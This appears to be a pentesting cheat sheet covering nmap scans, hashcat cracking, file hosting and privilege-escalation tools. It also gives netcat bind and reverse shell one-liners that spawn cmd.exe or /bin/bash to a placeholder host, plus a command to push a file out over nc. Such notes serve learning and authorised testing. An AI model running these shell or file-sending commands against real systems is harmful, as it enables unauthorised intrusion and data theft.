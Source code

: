 # Basic Tools

## Target Scan

### Nmap

```bash
nmap -sC -sV -oA <location> <ip>
nmap -v -p- -A <ip>
```

## Fuzz & Crack

### Hashcat

```bash
hashcat -m <mode> <hash.txt> <wordlist.txt>
```

Create your own wordlist:

```bash
hashcat --force <passwords.txt> -r <best64.rule> --stdout
```

{% hint style="info" %}
Find rules in _/usr/share/hashcat/rules/_
{% endhint %}

### ffuf

[Fuzz Faster U Fool](https://github.com/ffuf/ffuf). I guess that replaces Hydra and wfuzz.

## Hosting

### Host a file locally

```bash
python2 -m SimpleHTTPServer <port>
python3 -m http.server <port>
```

## Shells

### nc

> TCP/IP Swiss army knife\#

```bash
# Listen  
nc -nlvp <port>
nc -nlvp <port> > <incoming_file>   # redirect incoming input

# Connect
nc -nv <ip> <port>
nc -nv <ip> <port> < <push_file>    # send a file
```

**Reverse Shells**

Bob \(Windows\) dicrectly connected to Internet, Alice \(Linux\) behind NAT.

_Bind Shell_

```bash
# Bob can create a nc server and serve make clients connect to his shell
nc -nlvp <port> -e cmd.exe

# Alice can then connect to it
```

_Reverse Shell_

```bash
# Alice cannot bind port locally and expect Bob to connect (because NAT)
# Alice can instead send shell to Bob (Bob needs to setup nc server)

nc -nv <ip> <port> -e /bin/bash
```

More: [Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

_Getting a nicer prompt_

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
<C-z>
stty raw -echo
fg
```

```bash
script -c "/bin/bash -i" /dev/null
```

## PrivEsc

### Enumeration Scripts

* [LinPeas.sh / WinPeas.exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)
* [Seatbelt](https://github.com/GhostPack/Seatbelt) \(for Windows\)

### Monitoring

* [pspy](https://github.com/DominicBreuker/pspy) - proccess snooping

